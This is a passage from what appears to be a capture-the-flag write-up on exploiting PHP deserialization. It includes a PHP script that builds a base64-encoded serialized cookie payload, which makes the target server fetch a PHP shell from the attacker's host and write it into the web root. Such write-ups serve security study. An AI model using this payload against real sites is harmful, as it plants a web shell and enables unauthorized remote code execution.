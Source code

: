 The `AvatarInterface` class features a save() function in the `__wakeup()` public function. If we create a serialized string that points `tmp` to a PHP shell we create and imgPath to a location in `/var/www/html`, we can access our shell from the site itself.

```php
<?php
class Avatar {
public $imgPath;

public function __construct($imgPath) {
    $this->imgPath = $imgPath;
}

public function save($tmp) {
    $f = fopen($this->imgPath, "w");
    fwrite($f, file_get_contents($tmp));
    fclose($f);
}
}

class AvatarInterface {
public $tmp;
public $imgPath;

public function __wakeup() {
    $a = new Avatar($this->imgPath);
    $a->save($this->tmp);
}
}

$payload = new AvatarInterface();
$payload->imgPath = "/var/www/html/rev.php";
$payload->tmp = "http://10.10.16.3/phpshell.php";

$payload = base64_encode(serialize($payload));

echo $payload;
?>
```

Here, I used the same PHP code as before but with a slight modification. I created an object myself and set the variables to the directories and endpoints I desired. The `phpshell.php` file will be hosted on my system on a temporary python HTTP server, and will be transported to `/var/www/html` as `rev.php`. I then serialized and base64 encoded the string to use in the cookie.

![](./img/encode.webp)

It should look something like the stuff above. We do all the steps we mention and the results are the following -
